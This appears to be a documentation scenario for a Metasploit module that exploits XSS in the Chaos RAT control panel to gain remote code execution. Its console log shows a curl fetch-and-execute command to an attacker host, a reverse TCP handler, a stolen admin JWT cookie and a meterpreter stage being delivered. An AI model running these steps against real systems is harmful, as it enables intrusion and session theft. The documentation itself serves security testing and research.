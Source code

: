 #### JWT Method

```
[*] Processing chaos.rb for ERB directives.
resource (chaos.rb)> use exploit/linux/http/chaos_rat_xss_to_rce
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
resource (chaos.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (chaos.rb)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (chaos.rb)> set jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzA0ODksIm9yaWdfaWF0IjoxNzEzMzY2ODg5LCJ1c2VyIjoiYWRtaW4ifQ.qGbOOAc8RG6Hsd2SJKzGVAczJJ7KwEI2MxdIojM06d4
jwt => eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzA0ODksIm9yaWdfaWF0IjoxNzEzMzY2ODg5LCJ1c2VyIjoiYWRtaW4ifQ.qGbOOAc8RG6Hsd2SJKzGVAczJJ7KwEI2MxdIojM06d4
resource (chaos.rb)> set SRVHOST 111.111.63.147
SRVHOST => 111.111.63.147
resource (chaos.rb)> set SRVPORT 8888
SRVPORT => 8888
resource (chaos.rb)> set verbose true
verbose => true
msf exploit(linux/http/chaos_rat_xss_to_rce) > exploit

[*] Command to run on remote host: curl -so ./HVHYAPykfOV http://111.111.63.147:9090/mh1dne7HFFTZ0wiiiWgmfw; chmod +x ./HVHYAPykfOV; ./HVHYAPykfOV &
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/chaos_rat_xss_to_rce) >
[*] Fetch handler listening on 111.111.63.147:9090
[*] HTTP server started
[*] Adding resource /mh1dne7HFFTZ0wiiiWgmfw
[*] Started reverse TCP handler on 111.111.63.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Chaos application found
[*] Attempting exploitation through JWT token
[*] Fake MAC for agent: d9:74:62:8e:fc:43
[*] Listening for XSS response on: http://111.111.63.147:8888/
[*] Performing Callback Checkin
[*] WebSocket connecting to receive commands
```

Log in to the website, click `Acion`, `Remote Shell` on the
fake agent we've added to the list. Now type anything into
the input box and click `Send`.

```
[+] Received agent command 'whoami', sending XSS in return
[*] Received GET request.
[+] Received cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRob3JpemVkIjp0cnVlLCJleHAiOjE3MTMzNzEwMTAsIm9yaWdfaWF0IjoxNzEzMzY3NDEwLCJ1c2VyIjoiYWRtaW4ifQ.K-DCy8qNaxAHVx2Hu_Z-Ff7ZEG_TWkaount8wEM0clk
[+] Detected Agents
Live Agents
===========

 IP          OS       Username     Hostname  MAC
 --          --       --------     --------  ---
 111.111.63  Windows  Administrat  DC01      d9:74:62:8e:fc
 .147                 or (Adminis            :43
                      trator)

[*] Client 172.17.0.2 requested /mh1dne7HFFTZ0wiiiWgmfw
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.2
```